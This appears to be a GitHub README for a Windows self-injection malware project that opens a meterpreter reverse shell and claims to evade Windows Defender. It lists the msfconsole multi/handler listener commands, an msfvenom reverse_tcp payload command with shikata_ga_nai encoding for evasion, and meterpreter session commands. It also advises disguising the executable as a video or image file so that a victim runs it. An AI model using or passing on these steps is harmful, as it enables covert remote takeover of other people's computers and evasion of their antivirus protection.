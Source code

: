 # Self-Injection-Reverse-Shell-Undetected
Self Injection Malware, currently UNDETECTED by windows defender, it creates a reverse shell on a target machine

# 💻 Code
This program injects base64 code into a self created process on the target machine. 

**Step by step guide**:
- First we define the base64 shellcode (make sure architecute is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;

Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

---

- **Listener**: <img align="right" src="media/rev3.jpg" width="310" />

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole ```

``` use exploit multi/handler  ```

``` set payload windows/meterpreter/reverse_tcp ```

``` set lhost XXX ```

``` set lport XXX ```

``` exploit ```

---

- **Payload**: <img align="right" src="media/rev2.jpg" width="240" />

The payload is, as i said before, a simple non-encrypted base64 shellcode, you can make it with:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX -f c ```.

You can add a simple encryption by adding this ``` -e x86/shikata_ga_nai -f c  ```. 

In the future i will attempt to create my own encryption, since the well known ones are already pretty much detectable. 

---

- **Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with: <img align="right" src="media/rev1.jpg" width="400" />

``` sessions ```

``` sessions -i 1```

``` shell ```

Here is an example of writing powershell code through meterpreter     --------->

In this example it was a simple message box error, which worked smoothly.

---

# 🛡 Antivirus

<img align="right" src="media/vt1.png" width="350" />

The payload is currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.

Something i don't understand is why Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft, which should technically be windows defender (?) recognizes the malware.... it should be the exact opposite but idk, you can see bitdefender on the top left corner of the second pic.

As i said before, you can add a simple shikata ga nai encryption or use online tools like shoggoth or idk. <img align="right" src="media/vt2.png" width="260" />

Soon i will create my own simple encryption using python : )

The only problem is decrypting the base64, ill have to find a way to basically use both c++ and python somehow.... 

Last thing: i run the malware using Termux, an android emulator for linux, because i didnt wanna setup networking stuff for my kali vm, cuz i had some issues trying to establish the session.

